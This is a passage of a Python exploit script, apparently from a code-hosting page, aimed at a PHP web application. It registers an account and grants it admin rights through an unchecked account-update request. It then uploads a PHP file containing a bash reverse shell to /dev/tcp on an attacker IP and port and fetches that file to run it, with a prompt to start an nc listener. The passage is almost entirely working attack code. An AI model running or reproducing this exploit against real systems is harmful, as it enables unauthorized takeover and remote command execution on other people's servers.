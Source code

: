 ```python
		'contact={data}', 
		'gender=Male', 
		'address=', 
		'username={data}', 
		'password={data}')).format(data=user)

	session.post(f'{target_url}/classes/Master.php?f=register', data=post_data, headers=headers)

	return user

# login user
def login(session, credentials):
	headers = {'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8'}
	post_data = '&'.join((
		'username={data}',
		'password={data}')).format(data=credentials)

	session.post(f'{target_url}/classes/Login.php?f=login_user', data=post_data, headers=headers)

# change privileges
def change_privileges(session, user, user_id):
	headers = {'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8'}
	post_data = '&'.join((
		'id={id}',
		'login_type=1', # admin privileges (default=2)
		'firstname={data}',
		'lastname={data}',
		'contact={data}',
		'gender=Male',
		'address=',
		'username={data}',
		'password=')).format(data=user, id=user_id)
	
	r = session.post(f'{target_url}/classes/Master.php?f=update_account', data=post_data, headers=headers)
	
	if 'success' not in r.text:
		return False
	else:
		return True

# reverse shell
def reverse_shell(session):
	# listen to rev
	print('Open port {p} to receive the shell (g.e /usr/bin/nc -lvnp {p})'.format(p=PORT))
	input('Press any key to continue...')
	headers = {'Content-Type' : 'multipart/form-data; boundary=123456789'}
	post_data = """--123456789\r\nContent-Disposition: form-data; name="file_upload"; filename="rev_shell.php"\r\n\n<?php exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/{}/{} 0>&1'"); ?>\r\n--123456789""".format(IP, PORT)

	r = session.post(f'{target_url}/classes/Users.php?f=upload', data=post_data, headers=headers)
		
	file_name = str(json.loads(r.text)['success']).split()[0]

	session.get(f'{target_url}/{file_name}')

# make request
def request():
	try:
		# create session
		s = requests.Session()
		s.get(target_url)
```